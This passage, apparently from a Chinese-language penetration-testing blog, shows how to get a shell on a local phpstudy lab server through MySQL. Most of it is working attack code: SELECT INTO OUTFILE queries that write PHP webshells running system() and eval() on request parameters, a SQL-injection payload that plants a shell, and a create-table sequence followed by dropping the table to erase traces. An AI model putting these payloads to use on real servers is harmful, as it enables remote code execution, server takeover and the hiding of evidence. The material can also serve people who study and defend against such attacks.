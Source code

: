 蚁剑连接：`http://192.168.1.7/config.php`，密码：`soap`

![][11]

![][12]

还可以这样利用：

```
select '<?php echo \'<pre>\';system($_GET[\'cmd\']); echo \'</pre>\'; ?>' into outfile 'C:\\phpstudy\\PHPTutorial\\WWW\\test.php';
```

访问链接：`http://192.168.1.7/test.php?cmd=net user`

![][13]

![][14]

在有注入点的地方也可以这样使用：

```
id=1) into outfile 'C:\\phpstudy\\PHPTutorial\\WWW\\settings.php' fields terminated by '<?php @eval($_POST[]);?>'
```

### 建表 getshell

直接`phpmyadmin`里操作也可以，或者直接`sql`语句建表:

```
CREATE TABLE `mysql`.`soapffz` (`content` TEXT NOT NULL );
INSERT INTO `mysql`.`soapffz` (`content` ) VALUES ('<?php @eval($_POST[soap]);?>');
SELECT `content` FROM `mysql`.`soapffz` INTO OUTFILE 'C:\\phpstudy\\PHPTutorial\\WWW\\test3.php';
或者
Create TABLE soapffz (content text NOT NULL);
Insert INTO soapffz (content) VALUES('<?php @eval($_POST[pass]);?>');
select `content` from mysql.soapffz into outfile 'C:\\phpstudy\\PHPTutorial\\WWW\\test3.php';
然后删除所建的表抹去痕迹
DROP TABLE IF EXISTS `mysql`.`soapffz`;
```

![][15]

`shell`连接即可

### 日志 getshell

需要的条件：

- 日志记录开启
- web 绝对路径

实际执行的操作：

- 修改日志文件为 webshell


[1]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_111241.png
[2]: https://img.soapffz.com/archives_img/2020/02/13/https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_112857.png
[3]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_125442.png
[4]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_132709.png
[5]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_131046.png
[6]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_131258.png
[7]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_131352.png
[8]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_130356.png
[9]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_130718.png
[10]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_133321.png
[11]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_134455.png
[12]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_134522.png
[13]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_135233.png
[14]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_135252.png
[15]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_142449.png
[16]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_143545.png
[17]: https://mp.weixin.qq.com/s/9Tkcn2AtGrHUsIbRCQ-ZSQ
[18]: https://mp.weixin.qq.com/s/Y1ZtcQ-VuIh89RDcYoD3hQ
[19]: https://mp.weixin.qq.com/s/IWjGPQ155kZnUxh5fjb1RQ
[20]: https://www.freebuf.com/articles/web/226240.html